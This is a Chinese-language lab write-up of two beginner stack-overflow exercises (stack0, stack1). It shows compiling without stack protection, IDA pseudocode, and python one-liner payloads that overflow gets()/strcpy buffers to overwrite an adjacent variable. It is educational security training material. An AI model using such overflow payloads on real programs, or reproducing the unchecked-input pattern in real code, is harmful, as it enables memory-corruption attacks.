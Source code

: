 # <center>栈溢出实验1</center>

## 实验概述

### 【目的】
1.通过-fno-stack-protector和-m32参数从gcc编译stack0.c文件。
2.运行编译后的程序，通过缓冲区溢出修改与字符串数组相邻的变量，得到输出"you have changed the 'modified' variable"
3.运行stack1程序，通过栈溢出得到输出"you have correctly got the variable to the right value"
### 【环境】
Linux
### 【工具】
gcc，python，管道，IDA pro，binwalk
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### stack0
打开shell，使用-fno-stack-protector参数编译stack0。
```sh
$ gcc stack0.c -o stack0 -fno-stack-protector -m32
stack0.c: In function ‘main’:
stack0.c:11:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(buffer);
   ^
/tmp/ccccxHmM.o: In function `main':
stack0.c:(.text+0x23): warning: the `gets' function is dangerous and should not be used.
```
观察源代码，发现buffer数组与modified变量相邻，要使modified变量不等于0，才能得到输出"you have changed the 'modified' variable"
因为有gets()函数，我们可以向栈上不加限制的写入任意长度的数据，当输入数据大于64时，便发生了溢出，输入数据只要够大，就一定能覆盖到modifiel变量。

这里我们使用python简化输入，免去手打一大堆字符的麻烦。
```sh
$ python -c "print 'A'*65" | ./stack0
you have changed the 'modified' variable
Segmentation fault (core dumped)
```

#### stack1
用binwalk分析程序结构。
```
$ binwalk stack1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
发现是32位程序，直接拖进idaq.exe，定位到main函数，按F5生成伪代码。

```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+0h] [bp-4Ch]@3
  int v5; // [sp+40h] [bp-Ch]@3
  int *v6; // [sp+48h] [bp-4h]@1

  v6 = &argc;
  if ( argc == 1 )
    errx(1, "please specify an argument\n");
  v5 = 0;
  strcpy(&dest, argv[1]);
  if ( v5 == 'abcd' )
    puts("you have correctly got the variable to the right value");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
可以看到这里把作为参数的字符串复制到了变量dest上：`strcpy(&dest, argv[1]);`
那么我们在运行程序时给出超过dest字符数组长度的参数即可发生溢出，这里我们需要覆盖v5等于`"abcd"`。
经过计算，有：
```
$ python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
you have correctly got the variable to the right value

```
这里的 xargs 表示输入数据作为参数。


### 【总结】

本次实验主要体验Linux环境下栈溢出的发生场景，并尝试通过栈溢出覆盖（修改）相邻的变量，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：
- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

